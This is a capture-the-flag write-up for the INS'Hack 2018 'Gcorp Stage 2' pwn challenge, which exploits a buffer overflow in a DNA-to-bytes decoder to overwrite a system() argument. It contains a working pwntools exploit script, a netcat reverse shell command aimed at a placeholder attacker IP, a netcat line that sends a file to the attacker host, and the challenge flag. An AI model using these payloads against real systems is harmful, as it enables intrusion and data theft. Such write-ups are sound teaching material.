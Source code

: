 ```yaml
---
title: INS'Hack 2018 - Gcorp Stage 2
authors: qlemaire
layout: writeup
---
```

Solves: 44 / Points: 85 / Category: PWN

## Challenge description
> All you need to do is to pwn using some DNA samples...
> Once you gathered enough information, go checkout https://gcorp-stage-2.ctf.insecurity-insa.fr/
> Note: you should validate stage 1 to have more information on stage 2.

In stage 1, we were given a pcap file. From a TCP stream, it was possible to extract a 64bits ELF executable. We are told that this binary is running on a remote server. It is translating DNA sequences into bytes.

## Challenge resolution

### DNA encoding

Performing static and dynamic anaylysis of the binary, we can see how DNA encoding is performed. It is actually a base4 encoding with "A", "C", "G" and "T" characters.

Each blocs of 4 characters encode 1 byte. We have the following correspondance table
```
AAAA => 0x00
AAAC => 0x01
AAAG => 0x02
AAAT => 0x03
AACA => 0x04
AACC => 0x05
AACG => 0x06
AACT => 0x07
AAGA => 0x08 (8)
AAGC => 0x09
AAGG => 0x0a
AAGT => 0x0b
AATA => 0x0c
AATC => 0x0d
AATG => 0x0e
AATT => 0x0f
ACAA => 0x10 (16)
...
TTTT => 0xff (255)
```

### Overflow

User input is a DNA sequence of maximum 1024 bytes. After decoding, the output is 1024/4 = 256 bytes long. However, this output is stored within a 128 bytes char table. Therefore, it is possible to write 128 junk bytes, then overflow the table to override the `gcmd` variable which is given as parameter to the `system` command.

To exploit the remote system, we have to write 128 junk bytes, then write the command (128 characters maximum) we want the system to execute.

### Building an exploit

Here is a local exploit code (don't forget to launch your listener to get the reverse shell). We send 128 times "TTTT" (which is decoded with "\xff") and then our encoded reverse shell command.

```python
from pwn import *

p = process('./73494.elf')

OFFSET = 128
FF = "TTTT" # "TTTT" sequence is converted to "\xff"
IP = "<FIXME_ATTACKER_IP>"
CMD = "nc " + IP + " <FIMXE_ATTACKER_PORT> -e /bin/sh" # reverse shell
BASE_4 = ["A", "C", "G", "T"] # 0, 1, 2, 3

dna_list = list()

# converting command in DNA (yeah this code could be improved and refactored)
for char in CMD:
    dna = ""
    dec_value = ord(char)

    first_index = float(dec_value)/float(64.0)
    dna += BASE_4[int(first_index)] # 1st letter

    rest = dec_value-int(first_index)*64
    second_index = float(rest)/float(16.0)
    dna += BASE_4[int(second_index)] # 2nd letter

    rest -= int(second_index)*16
    third_index = float(rest)/float(4.0)
    dna += BASE_4[int(third_index)] # 3nd letter

    rest -= int(third_index)*4
    fourth_index = float(rest)/float(1.0)
    dna += BASE_4[int(fourth_index)] # 4th letter

    dna_list.append(dna)

info("Command is %s"%CMD)
info("DNA is %s"%"".join(dna_list)) 

# building payload
payload = FF*OFFSET # sending 128 "\xff" 
payload += "".join(dna_list) # sending command to execute

info("Full payload:\n%s"%payload)

# write payload to file
with open('payload.txt', 'w') as f:
    f.write(payload)

p.send(payload)
response = p.recv(2048)
print response
```

### Remote exploitation

For remote exploitation, we send the payload (stored within `payload.txt` after local exploitation) in the body of an HTTP POST request to https://gcorp-stage-2.ctf.insecurity-insa.fr/.

As soon as we get a shell on the target, we cat the flag stored within `.flag.txt` :
```bash
$ cat .flag.txt
INSA{1fb977db25976d7e1a0fb713383de1cea90b2d15b4173708d867be3793571ed9}
```

## Retrieve Gcorp Stage 3 file

From the remote target, we can retrieve the ZIP file for Gcorp Stage 3 `stage_3_storage.zip` via netcat:
```bash
(local_machine) $ nc -nvlp <attacker-port> > stage_3_storage.zip
(remote_machine) $ nc <attacker-ip> <attacker-port> < stage_3_storage.zip
```

_Of course, don't do that with sensitive customers files, there is no encryption here._